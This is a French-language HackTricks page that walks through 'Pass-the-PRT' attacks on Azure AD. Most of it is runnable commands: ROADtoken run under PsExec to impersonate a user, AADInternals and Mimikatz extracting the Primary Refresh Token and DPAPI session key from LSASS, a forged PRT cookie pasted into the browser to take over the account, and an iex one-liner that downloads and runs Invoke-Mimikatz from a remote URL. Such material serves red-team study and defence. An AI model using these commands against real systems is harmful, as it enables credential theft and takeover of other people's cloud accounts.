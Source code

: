 # Az - Passer le PRT

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Qu'est-ce qu'un PRT

{% content-ref url="az-primary-refresh-token-prt.md" %}
[az-primary-refresh-token-prt.md](az-primary-refresh-token-prt.md)
{% endcontent-ref %}

### Vérifiez si vous avez un PRT
```
Dsregcmd.exe /status
```
Dans la section État SSO, vous devriez voir **`AzureAdPrt`** défini sur **OUI**.

<figure><img src="../../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

Dans le même résultat, vous pouvez également voir si **l'appareil est joint à Azure** (dans le champ `AzureAdJoined`):

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

## Pass-the-PRT

### Attaque - ROADtoken

Pour plus d'informations sur cette méthode, [**consultez ce post**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/). ROADtoken exécutera **`BrowserCore.exe`** depuis le bon répertoire et l'utilisera pour **obtenir un cookie PRT**. Ce cookie peut ensuite être utilisé avec ROADtools pour s'authentifier et **obtenir un jeton d'actualisation persistant**.

Pour générer un cookie PRT valide, la première chose dont vous avez besoin est un nonce.\
Vous pouvez l'obtenir avec :
```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI"     = $URL
"Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```
Ou en utilisant [**roadrecon**](https://github.com/dirkjanm/ROADtools) :
```powershell
roadrecon auth prt-init
```
Ensuite, vous pouvez utiliser [**roadtoken**](https://github.com/dirkjanm/ROADtoken) pour obtenir un nouveau PRT (exécuter dans l'outil à partir d'un processus de l'utilisateur à attaquer) :
```powershell
.\ROADtoken.exe <nonce>
```
Comme une ligne unique :

{% code overflow="wrap" %}
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
```markdown
Ensuite, vous pouvez utiliser le **cookie généré** pour **générer des jetons** afin de **vous connecter** en utilisant Azure AD **Graph** ou Microsoft Graph :
```
```powershell
roadrecon auth --prt-cookie <prt_cookie>

Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```
### Attaque - Utilisation de AADInternals

`Get-AADIntUserPRTToken` **obtient le jeton PRT de l'utilisateur** à partir de l'ordinateur joint à Azure AD ou joint en mode Hybride. Utilise `BrowserCore.exe` pour obtenir le jeton PRT.
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```
Ou si vous avez les valeurs de Mimikatz, vous pouvez également utiliser AADInternals pour générer un jeton :
```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```
Rendez-vous sur [https://login.microsoftonline.com](https://login.microsoftonline.com), supprimez tous les cookies pour login.microsoftonline.com et entrez un nouveau cookie.
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
Ensuite, allez sur [https://portal.azure.com](https://portal.azure.com)

{% hint style="danger" %}
Le reste devrait être les valeurs par défaut. Assurez-vous que vous pouvez rafraîchir la page et que le cookie ne disparaît pas, si c'est le cas, vous avez peut-être fait une erreur et devez recommencer le processus. Si ce n'est pas le cas, vous devriez être bon.
{% endhint %}

### Attaque - Mimikatz

#### Étapes

1. **Extrayez** le **PRT de LSASS** et sauvegardez-le pour plus tard.
2. **Extrayez** la **Clé de Session**. Si vous vous souvenez, celle-ci est émise puis re-chiffrée par l'appareil local, donc nous devons **la déchiffrer en utilisant une clé maîtresse DPAPI**. Pour plus d'informations sur DPAPI, consultez ce lien [**HackTricks**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) ou l'[**attaque Pass-the-cookie**](az-pass-the-cookie.md).
3. En utilisant la Clé de Session déchiffrée, nous obtiendrons la clé dérivée pour le PRT et le contexte. Cela est nécessaire pour **créer notre cookie PRT**. La clé dérivée est ce qui est utilisé pour signer le JWT pour le cookie. Dirk-jan a très bien expliqué ce processus [ici](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

{% hint style="warning" %}
Cela ne fonctionnera pas après les correctifs d'août 2021 pour obtenir les jetons PRT d'autres utilisateurs car seul l'utilisateur peut obtenir son PRT (un administrateur local ne peut pas accéder aux PRTs d'autres utilisateurs), mais peut accéder au sien.
{% endhint %}

{% hint style="danger" %}
**Cette méthode pour générer le cookie n'a pas fonctionné pour moi la dernière fois**
{% endhint %}

Vous pouvez utiliser **mimikatz** pour extraire le PRT :
```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
<figure><img src="../../../.gitbook/assets/image (4) (1) (3).png" alt=""><figcaption></figcaption></figure>

**Copiez** la partie étiquetée **Prt** et sauvegardez-la.\
Extrayez également la clé de session ou “**ProofOfPosessionKey**” que vous pouvez voir en surbrillance ci-dessous. Celle-ci est chiffrée et nous devrons utiliser nos masterkeys DPAPI pour la déchiffrer.

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Si vous ne voyez pas de données PRT, il se peut que vous **n'ayez pas de PRTs** parce que votre appareil n'est pas joint à Azure AD ou il se peut que vous **utilisiez une ancienne version** de Windows 10.
{% endhint %}

Pour **déchiffrer** la clé de session, vous devez **élever** vos privilèges à **SYSTEM** pour exécuter sous le contexte de l'ordinateur afin de pouvoir utiliser la **masterkey DPAPI pour la déchiffrer**. Vous pouvez utiliser les commandes suivantes pour ce faire :
```
token::elevate
dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```
Maintenant, vous voulez copier à la fois la valeur Context :

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Et la valeur de la clé dérivée :

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Finalement, vous pouvez utiliser toutes ces informations pour **générer des cookies PRT** :
```bash
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```
<figure><img src="../../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Allez sur [https://login.microsoftonline.com](https://login.microsoftonline.com), supprimez tous les cookies pour login.microsoftonline.com et entrez un nouveau cookie.
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
Ensuite, allez sur [https://portal.azure.com](https://portal.azure.com)

{% hint style="danger" %}
Le reste devrait être les valeurs par défaut. Assurez-vous que vous pouvez actualiser la page et que le cookie ne disparaît pas, si c'est le cas, vous avez peut-être fait une erreur et devez recommencer le processus. Si ce n'est pas le cas, vous devriez être bon.
{% endhint %}

## Références

* [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)
* [https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
